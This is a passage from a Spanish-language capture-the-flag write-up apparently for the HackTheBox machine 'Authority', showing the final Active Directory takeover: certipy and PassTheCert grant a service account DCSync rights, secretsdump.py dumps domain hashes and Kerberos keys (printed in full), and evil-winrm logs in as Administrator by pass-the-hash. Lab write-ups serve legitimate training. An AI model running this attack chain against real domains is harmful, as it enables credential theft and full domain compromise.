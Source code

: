 Este error simplemente significa que el KDC no admite autenticación via Kerberos.

Para bypassear esto utilizaré [PassTheCert](https://github.com/AlmondOffSec/PassTheCert):

```bash
❯ certipy cert -pfx administrator_authority.pfx -nokey -out user.crt
❯ certipy cert -pfx administrator_authority.pfx -nocert -out user.key
```

Desde aquí hay diferentes maneras de obtener acceso como Administrator, recomiendo leer las opciones que se plantean en el repositorio de Github. Yo voy a elevar los privilegios del usuario **svc_ldap** para poder llevar a cabo un ataque DCSYNC:

```bash
❯ python passthecert.py -action modify_user -crt user.crt -key user.key -domain authority.htb -dc-ip 10.10.11.222 -target 'svc_ldap' -elevate
Impacket v0.9.24 - Copyright 2021 SecureAuth Corporation

[*] Granted user 'svc_ldap' DCSYNC rights!
```

Ahora podemos obtener el hash NTLMv2 de cualquier usuario utilizando **secretsdump.py**:

```bash
❯ secretsdump.py 'authority.htb/svc_ldap:lDaP_1n_th3_cle4r!@10.10.11.222'
Impacket v0.9.24 - Copyright 2021 SecureAuth Corporation

[-] RemoteOperations failed: DCERPC Runtime Error: code: 0x5 - rpc_s_access_denied
[*] Dumping Domain Credentials (domain\uid:rid:lmhash:nthash)
[*] Using the DRSUAPI method to get NTDS.DIT secrets
Administrator:500:aad3b435b51404eeaad3b435b51404ee:6961f422924da90a6928197429eea4ed:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
krbtgt:502:aad3b435b51404eeaad3b435b51404ee:bd6bd7fcab60ba569e3ed57c7c322908:::
svc_ldap:1601:aad3b435b51404eeaad3b435b51404ee:6839f4ed6c7e142fed7988a6c5d0c5f1:::
AUTHORITY$:1000:aad3b435b51404eeaad3b435b51404ee:5c54981ecf007f158584ad91d6a6aa55:::
[*] Kerberos keys grabbed
Administrator:aes256-cts-hmac-sha1-96:72c97be1f2c57ba5a51af2ef187969af4cf23b61b6dc444f93dd9cd1d5502a81
Administrator:aes128-cts-hmac-sha1-96:b5fb2fa35f3291a1477ca5728325029f
Administrator:des-cbc-md5:8ad3d50efed66b16
krbtgt:aes256-cts-hmac-sha1-96:1be737545ac8663be33d970cbd7bebba2ecfc5fa4fdfef3d136f148f90bd67cb
krbtgt:aes128-cts-hmac-sha1-96:d2acc08a1029f6685f5a92329c9f3161
krbtgt:des-cbc-md5:a1457c268ca11919
svc_ldap:aes256-cts-hmac-sha1-96:3773526dd267f73ee80d3df0af96202544bd2593459fdccb4452eee7c70f3b8a
svc_ldap:aes128-cts-hmac-sha1-96:08da69b159e5209b9635961c6c587a96
svc_ldap:des-cbc-md5:01a8984920866862
AUTHORITY$:aes256-cts-hmac-sha1-96:0a5d5125f8f657366d2d982ffb68a645dae819715e4915d4d2bc23b041acb6d6
AUTHORITY$:aes128-cts-hmac-sha1-96:ab47daa967bbe7e83232c4d883916919
AUTHORITY$:des-cbc-md5:07616b38d6a1c7b3
[*] Cleaning up...
```

Accedemos mediante WinRM:

```bash
❯ evil-winrm  -i 10.10.11.222 -u Administrator -H 6961f422924da90a6928197429eea4ed

Evil-WinRM shell v3.5

Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\Administrator\Documents> whoami
htb\administrator
```

La última flag se encuentra en el escritorio de este.
